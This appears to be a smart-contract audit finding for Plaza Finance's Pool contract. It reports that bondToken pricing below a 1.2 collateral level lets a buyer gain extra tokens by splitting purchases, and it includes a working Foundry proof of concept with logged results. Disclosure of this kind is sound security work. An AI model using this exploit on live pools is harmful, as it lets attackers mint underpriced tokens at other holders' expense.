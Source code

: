 Hidden Tiger Carp

High

# A malicious attacker can purchase bondToken at a lower price than the normal price

### Summary

A malicious attacker can purchase bondToken at a lower price than the normal price. When the Collateral Level is below 1.2, the price of bondToken changes every time a user buys it. Therefore, when the Collateral Level is below 1.2, buying bondToken in multiple smaller transactions can result in acquiring more bondToken compared to buying it all at once.
The redeem function is also affected by the same flaw.

### Root Cause

The price calculation should ensure that the same amount of funds can always buy the same amount of bondToken.
[RepoLink](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L306)
```solidity
function getCreateAmount(
    TokenType tokenType,
    uint256 depositAmount,
    uint256 bondSupply, 
    uint256 levSupply, 
    uint256 poolReserves, 
    uint256 ethPrice,
    uint8 oracleDecimals) public pure returns(uint256) {
    if (bondSupply == 0) {
      revert ZeroDebtSupply();
    }

    uint256 assetSupply = bondSupply;
    uint256 multiplier = POINT_EIGHT;
    if (tokenType == TokenType.LEVERAGE) {
      multiplier = POINT_TWO;
      assetSupply = levSupply;
    }

    uint256 tvl = (ethPrice * poolReserves).toBaseUnit(oracleDecimals);
    uint256 collateralLevel = (tvl * PRECISION) / (bondSupply * BOND_TARGET_PRICE);
    uint256 creationRate = BOND_TARGET_PRICE * PRECISION;

    if (collateralLevel <= COLLATERAL_THRESHOLD) {
      if (tokenType == TokenType.LEVERAGE && assetSupply == 0) {
        revert ZeroLeverageSupply();
      }
      creationRate = (tvl * multiplier) / assetSupply;
    } else if (tokenType == TokenType.LEVERAGE) {
      if (assetSupply == 0) {
        revert ZeroLeverageSupply();
      }

      uint256 adjustedValue = tvl - (BOND_TARGET_PRICE * bondSupply);
      creationRate = (adjustedValue * PRECISION) / assetSupply;
    }
    
    return ((depositAmount * ethPrice * PRECISION) / creationRate).toBaseUnit(oracleDecimals);
  }
```
### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The current bondToken price calculation has a flaw, which can be exploited using the attack vector mentioned above, allowing attackers to purchase a large amount of bondToken with a small amount of capital.

### PoC

```solidity
//test/Pool.t.sol
function testCreate1() public {
    initializeTestCasesFixedEth();
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    uint256 poolReserves = 100;
    uint256 inAmount = 300;
    uint256 bondSupply = 3000;
    uint256 levSupply = 100;

    // Mint reserve tokens
    rToken.mint(governance, 1000);
    rToken.approve(address(poolFactory), 1000);

    // Create pool and approve deposit amount
    Pool _pool = Pool(poolFactory.createPool(params, poolReserves, bondSupply, levSupply, "", "bigbear1229", "", "", false));
    useMockPool(address(_pool));
    rToken.approve(address(_pool), 300);

    // Call create and assert minted tokens
    uint256 amountSum = _pool.create(Pool.TokenType.BOND, inAmount, 0);
    console.log("amount sum", amountSum);
    
    // Reset reserve state
    rToken.burn(governance, rToken.balanceOf(governance));
    rToken.burn(address(_pool), rToken.balanceOf(address(_pool)));

    resetReentrancy(address(_pool));
  }

Logs:
  amount sum 11250

function testCreate2() public {
    initializeTestCasesFixedEth();
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    uint256 poolReserves = 100;
    uint256 inAmount = 300;
    uint256 bondSupply = 3000;
    uint256 levSupply = 100;

    // Mint reserve tokens
    rToken.mint(governance, 1000);
    rToken.approve(address(poolFactory), 1000);

    // Create pool and approve deposit amount
    Pool _pool = Pool(poolFactory.createPool(params, poolReserves, bondSupply, levSupply, "", "bigbear1229", "", "", false));
    useMockPool(address(_pool));
    rToken.approve(address(_pool), 300);

    // Call create and assert minted tokens
    uint256 amountSum = 0;
    for (uint256 i = 0; i < 30; i++) {
      amountSum += _pool.create(Pool.TokenType.BOND, inAmount/30, 0);
    }
    console.log("amount sum", amountSum);

    // Reset reserve state
    rToken.burn(governance, rToken.balanceOf(governance));
    rToken.burn(address(_pool), rToken.balanceOf(address(_pool)));

    resetReentrancy(address(_pool));
  }

Logs:
  amount sum 13748
```
### Mitigation

_No response_